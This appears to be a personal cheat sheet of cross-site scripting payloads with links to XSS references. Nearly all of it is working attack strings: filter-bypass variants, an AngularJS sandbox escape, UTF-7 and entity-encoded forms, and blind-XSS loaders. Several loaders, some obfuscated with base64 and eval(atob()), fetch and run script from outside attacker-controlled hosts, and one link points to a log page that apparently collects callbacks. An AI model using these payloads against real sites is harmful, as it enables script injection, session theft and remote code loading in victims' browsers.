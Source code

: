 tags here:


"><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)

<Img Src=//X55.is OnLoad=import(src)>


https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

<img src=/ onerror="alert(1)"></img>

angular 1.* payload
{{constructor.constructor('alert(1)')()}}


<svg onload=alert(9)//

<a href="javascript:window.print()">Print Screen</a>

## hans' payload, much beter
" onfocus="alert('gotcha') autofocus=true a="

＜＞

prompt('d')

%22%3e%3cscript%3ealert(1)%3c%2fscript%3e

https://security.stackexchange.com/questions/130284/xss-payload-without-using-and

" onmouseover="alert('GOTCHA')"

＜svg onload=alert(`)//

＜img src=/ onerror="alert(1)">/img＞

＜scr＜script＞ipt＞document.write("Successful XSS")＜/scr＜script＞ipt＞

<img src=/ onerror="alert(1)"></img>

＜svg onload=alert(1)//

\";alert('XSS');//

+/v8 +ADw-script+AD4-alert(1)+ADw-/script+AD4-

+ADw-script+AD4-alert(document.location)+ADw-/script+AD4-

"""><SCRIPT>alert()

https://silentbreaksecurity.com/wp-content/uploads/Asset-10asbs.png

<script a=">" src="https://silentbreaksecurity.com/wp-content/uploads/Asset-10asbs.png"></script>

var d=document;var l=d.createElement('script');l.src = 'https://badbird.sbsxss.xyz';d.getElementsByTagName('html')[0].appendChild(l);

" onfocus=alert(1) autofocus> 

# xss hunter
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmFkYmlyZC5zYnN4c3MueHl6Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61; onerror=eval(atob(this.id))>

<script>$.getScript("//badbird.sbsxss.xyz")</script>

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//badbird.sbsxss.xyz");a.send();</script>

"><iframe srcdoc="&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#118;&#97;&#114;&#32;&#97;&#61;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#114;&#101;&#97;&#116;&#101;&#69;&#108;&#101;&#109;&#101;&#110;&#116;&#40;&#34;&#115;&#99;&#114;&#105;&#112;&#116;&#34;&#41;&#59;&#97;&#46;&#115;&#114;&#99;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;badbird.sbsxss.xyz&#34;&#59;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#98;&#111;&#100;&#121;&#46;&#97;&#112;&#112;&#101;&#110;&#100;&#67;&#104;&#105;&#108;&#100;&#40;&#97;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;">

"><iframe srcdoc="&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#118;&#97;&#114;&#32;&#97;&#61;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#114;&#101;&#97;&#116;&#101;&#69;&#108;&#101;&#109;&#101;&#110;&#116;&#40;&#34;&#115;&#99;&#114;&#105;&#112;&#116;&#34;&#41;&#59;&#97;&#46;&#115;&#114;&#99;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;badbird.sbsxss.xyz&#34;&#59;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#98;&#111;&#100;&#121;&#46;&#97;&#112;&#112;&#101;&#110;&#100;&#67;&#104;&#105;&#108;&#100;&#40;&#97;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;"//

"><video><source onerror=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmFkYmlyZC5zYnN4c3MueHl6Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61;>

javascript:eval('var a=document.createElement(\'script\');a.src=\'https://badbird.sbsxss.xyz\';document.body.appendChild(a)')

hans blind xss payloads
```
javascript:eval('var a=document.createElement(\'script\');a.src=\'https://pt0404.000webhostapp.com/no.js'';document.body.appendChild(a)')

var d=document;var l=d.createElement('script');l.src = 'https://pt0404.000webhostapp.com/no.js';d.getElementsByTagName('html')[0].appendChild(l);
```

http://rabbit.eng.miami.edu/info/htmlchars.html

xss hunter alternative 
- https://pt0404.000webhostapp.com/1.js
- https://pt0404.000webhostapp.com/view_log